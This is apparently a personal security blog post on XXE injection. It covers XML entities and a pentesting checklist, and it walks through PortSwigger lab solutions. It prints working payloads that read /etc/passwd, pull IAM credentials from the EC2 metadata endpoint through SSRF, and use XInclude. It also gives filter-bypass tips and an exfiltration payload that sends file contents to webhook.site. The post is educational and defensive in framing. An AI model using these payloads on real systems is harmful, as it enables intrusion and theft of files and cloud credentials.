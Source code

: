 ```yaml
---
layout: post
title: XXE (XML External Entities) Injection
subtitle: How malicious user can abouse External Entities to perform XXE
date: 2025-07-30 12:43
author: Ren Sie
comments: true
category: injection
---
```

The method isn’t as popular as others because of the patches. But if comes across with application that access and passing XML, worth trying!

{: .box-note}
**Note:** 💡 Try pass XML data to API endpoint. They sometimes accept XML data besides JSON data.

### XML
Some Apps use XML to transfer data. XML has its default entities, which define the way of representing data or special characters. For instance: 
- `&amp;` → `&`
- `&lt;` → `<`
- `&gt;` → `>`

#### **External Entities**
By default, XML has predefined entities to represent special symbols (like `&lt;` for `<`), but **XML External Entities (XXE)** allow users to define **custom entities**. These custom entities can reference **external resources**, such as _local files_ or _external URLs_. This flexibility can be exploited to read sensitive files on the server, or run RCE.  
They can be defined using the `<!ENTITY>` syntax in XML like this:
~~~
xml:
<!ENTITY entity_name SYSTEM "path_to_file_or_url">
~~~
An example of malicious XML can be:
The entity `xxe` in the `creds` document reference the `/etc/passwd`. When the file path (external URL) is passed, it will be places at `&xxe;`.
~~~
xml:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
~~~

### Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  

  #### Objective  
  1. **Identify endpoints that can process XML**  
      * Send test requests with XML payloads and set Content-Type to `application/xml` or `text/xml`.  
      * Inspect response content: `Content-Type: application/xml` or `Content-Type: text/xml` as accepted request headers.  

  2. **Create a working XML payload that can be adapted to deliver exploits**  
      * First create a valid XML structure that the application accepts  
      * Then modify it with malicious content tailored to target the application's XML processing logic  

  3. **Test identified endpoints for XXE**  

  #### Attack surface discovery  
  1. **Identify endpoints that accept XML payloads**  
      * Review requests in proxy for XML data (e.g., Burp Suite)  
      * Identify endpoints that accept JSON by sending XML  
      * Identify endpoints that accept images by sending SVG images  
      * Identify endpoints that accept documents by sending DOCX or PDF files  

  2. **Test with the header Content-Type: application/xml**  
  3. **Verify working XML payloads that can be adapted to deliver exploits**  
      * Confirm the endpoint accepts and processes XML  
      * Inject harmless modifications to observe behavior changes  

  4. **Locate internal DTDs**  
      * <!DOCTYPE ...> that contains `[internal subset]`, `[internal declaring elements]`, `[internal declaring entities]`, or `[attribute rules]`  
  
  #### Testing
  
  1. **Test for external entities with a simple non-malicious payload**  
      * <!ENTITY harmless SYSTEM "http://example.com/">  
      * If the server processes external entities, it will fetch the contents from example.com  

  2. **Test for external entities with an available file**  
      * <!ENTITY password SYSTEM "file:///etc/passwd">  

  3. **Test for external entities with an available endpoint we control**  
      * [Webhook](https://webhook.site/)  

  4. **Test for external entities with other available endpoints**  
      * <!ENTITY ext SYSTEM "http://internal-api.local/admin">  

  5. **EC2 metadata endpoint http://169.254.169.254/latest/meta-data**  
      * [Access instance metadata for an EC2 instance](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)  

  6. **Test filters and restrictions**  
      * Send common disallowed characters or keywords (e.g., `<`, `<!DOCTYPE>`, `$`, `SYSTEM`, `ENTITY`)  
      * Bypass filters using encoding or obfuscation (e.g., URL encoding, Unicode encoding, base64 encoding, null byte insertion, or alternate whitespace characters)  
      * Trigger error messages to exfiltrate information (e.g., `<!DOCT`)  
      * Nested Parameter Entities with External Payload (e.g., <!ENTITY external_dtd SYSTEM "http://example.com/payload.dtd">)  
      * Splitting Payload Across Multiple Parameters  

  7. **Test for denial of service  
      * [Billion laughs](https://en.wikipedia.org/wiki/Billion_laughs_attack)  

  8. **Test for code execution
      * Tag Injection
  
#### Impact

1. **Can we read sensitive files?**

   - Configuration files (e.g., `/etc/passwd`)
   - System files (e.g., `/etc/shadow`)
   - SQLite files
   - SSH keys (e.g., `~/.ssh/id_rsa`)

2. **Can we exfiltrate sensitive information?**

   - <?xml version="1.0" encoding="UTF-8"?>  
     <!DOCTYPE foo [  
       <!ENTITY xxe SYSTEM "file:///etc/passwd">  
       <!ENTITY % remote SYSTEM "https://webhook.site/?data=%xxe;">  
       %remote;  
     ]>  
     <foo>&xxe;</foo>

  4. **Can we achieve code execution?**  
  
</details>

### Labs
Just for demostration, I completed a few labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection) to show how this vulnerability can lead to:
#### 1. Exploiting XXE using external entities to retrieve files  
I captured and modified `POST /product/stock` with Burp Repeater. Adding the `!DOCTYPE element` that defines an external entity containing the path to the file `etc/passwd`.
   ~~~
   <?xml version="1.0" encoding="UTF-8"?>  
   <!DOCTYPE test [  
   <!ENTITY xxe SYSTEM "file:///etc/passwd">  
   ]>  
   <stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>  
   ~~~
   > Response:  
   > "Invalid product ID: root:x:0:0:root:/root:/bin/bash  
   > daemon:x:1:1 : daemon :/usr/sbin:/usr/sbin/nologin  
   > bin:x: 2:2 :bin:/bin:/usr/sbin/nologin  
   > sys:x: 3:3 : sys : /dev:/usr/sbin/nologin  
   > sync:x: 4:65534 : sync:/bin:/bin/sync  
   > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
   > backup:x: 34:34 :backup:/var/backups:/usr/sbin/nologin  
   > apt:x:100:65534 :: /nonexistent:/usr/sbin/nologin  
   > peter:x:2001:2001 :: /home/peter:/bin/bash  
   > dnsmasq:x:101:65534 :dnsmasq, ,,:/var/lib/misc:/usr/sbin/nologin  
   > messagebus:x:102:101 :: /nonexistent:/usr/sbin/nologin
   
#### 2. Exploiting XXE to perform SSRF attacks  
I captured and modified `POST /product/stock` with Burp Repeater. Adding the `!DOCTYPE element` that defines an external entity `test` to access EC2 instance metadata. More details about what _EC2 instance metadata_ is, visit [Access instance metadata for an EC2 instance](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: It tells us there's an "iam" entity inside  
   > "Invalid Product ID:  
   > iam"
   
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam">  
   ]>
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>
   ~~~
   > Response: It tells us there's an "security-credentials" entity inside  
   > "Invalid Product ID:  
   > security-credentials"

   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: It tells us there's an "admin" entity inside  
   > "Invalid Product ID:  
   > admin"  
   
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: We retrieves admin's access key
   > "Code":"Success",  
   > "LastUpdated":"2021-11-15T11:29:31.956206Z",  
   > "Type":"AWS-HMAC",  
   > "AccessKeyId":"BordnBx2QrCdt7VGVWT3",  
   > "SecretAccessKey":"yBZJPYWjn4XFnBLk3fqe305Fqdc7YT3SUs4vomxF",  
   > "Token":"kMW7yE0Z00lCE8zoDhS1rjX0vRBQG0EepbmRtzxmyzW0g8QtJ4j",  
   > "Expiration":"2027-11-14T11:29:31.956206Z"  

{: .box-note}
**Note:** 💡SSRF exploits a server's request-making functionality, allowing user to make a crafted request that pivots from the public-facing application and uses the server's trusted internal network position to scan, access, and exfiltrate data from otherwise unreachable backend services and cloud metadata endpoints.

#### 3. Exploiting XInclude to retrieve files  
   I identified the server-side xml parser by studying `GET /product?productId=3` on Burp Proxy. Insert the `Xinclude namespace` and the filepath to `POST /product/stock` on Repeater.
   ~~~
   productId=<test  
   xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/>  
   </test>&storeId=2
   ~~~
   > Response:  
   > "Invalid product ID: root:x:0:0:root:/root:/bin/bash  
   > daemon:x:1:1 : daemon :/usr/sbin:/usr/sbin/nologin  
   > bin:x: 2:2 :bin:/bin:/usr/sbin/nologin  
   > sys:x: 3:3 : sys : /dev:/usr/sbin/nologin  
   > sync:x: 4:65534 : sync:/bin:/bin/sync  
   > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
   > backup:x: 34:34 :backup:/var/backups:/usr/sbin/nologin  
   > apt:x:100:65534 :: /nonexistent:/usr/sbin/nologin  
   > peter:x:2001:2001 :: /home/peter:/bin/bash  
   > dnsmasq:x:101:65534 :dnsmasq, ,,:/var/lib/misc:/usr/sbin/nologin  
   > messagebus:x:102:101 :: /nonexistent:/usr/sbin/nologin

{: .box-note}
**Note:** 💡XInclude is used to bypass DTD-based Mitigation in this instance, If the application is blocking <!DOCTYPE>, an XInclude might still succeed.

### Prevention
1. Disable XML external entity
2. Use JSON instead of XML
3. Validate and Sanitize XML Input (with XSD)
4. Restrict Network/File Access (OS or Container Level)

### Also Read
[WSTG - Testing for XML Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection)
